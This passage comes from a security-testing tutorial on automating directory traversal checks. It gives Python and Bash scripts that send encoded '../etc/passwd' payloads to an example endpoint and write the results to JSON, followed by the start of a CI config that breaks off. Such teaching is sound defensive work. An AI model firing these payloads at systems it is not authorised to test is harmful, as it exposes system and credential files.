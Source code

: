 **Tip**: Save Dirsearch output to a file (e.g., `dirsearch ... > output.txt`). Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., HTTP responses).

### 13. Automate Directory Traversal Testing with Python and Bash

**Objective**: Automate traversal testing for repeatability in CI/CD pipelines with JSON output.

**Steps**:
1. Create a Python script to test traversal payloads:
   ```python
   import requests
   import json
   payloads = [
       "../../../../etc/passwd",
       "%2e%2e%2f%2e%2e%2fetc%2fpasswd",
       "%252e%252e%252f%252e%252e%252fetc%252fpasswd",
       "..%c0%af..%c0%afetc%c0%afpasswd"
   ]
   results = []
   url = "http://example.com/getUserProfile.jsp?item="
   for payload in payloads:
       try:
           response = requests.get(url + payload, timeout=5)
           result = {
               "payload": payload,
               "status_code": response.status_code,
               "response_length": len(response.text),
               "vulnerable": response.status_code == 200 and "root:" in response.text
           }
           results.append(result)
       except Exception as e:
           results.append({"payload": payload, "error": str(e)})
   with open("traversal_report.json", "w") as f:
       json.dump(results, f, indent=2)
   ```
2. Create a Bash wrapper to invoke cURL with payloads:
   ```bash
   #!/bin/bash
   payloads=(
       "../../../../etc/passwd"
       "%2e%2e%2f%2e%2e%2fetc%2fpasswd"
       "%252e%252e%252f%252e%252e%252fetc%252fpasswd"
       "..%c0%af..%c0%afetc%c0%afpasswd"
   )
   echo '{"results": [' > traversal_report.json
   for i in "${!payloads[@]}"; do
       curl -s -i "http://example.com/getUserProfile.jsp?item=${payloads[i]}" > temp.txt
       status=$(head -n 1 temp.txt | cut -d' ' -f2)
       length=$(wc -c < temp.txt)
       vulnerable=$(grep -q "root:" temp.txt && echo "true" || echo "false")
       echo "{\"payload\": \"${payloads[i]}\", \"status_code\": $status, \"response_length\": $length, \"vulnerable\": $vulnerable}" >> traversal_report.json
       [ $i -lt $((${#payloads[@]}-1)) ] && echo "," >> traversal_report.json
   done
   echo "]}" >> traversal_report.json
   rm temp.txt
   ```
3. Integrate into CI/CD (e.g., GitLab CI):
   ```yaml
   stages:
     - test
   security_test:
     stage: test
   ```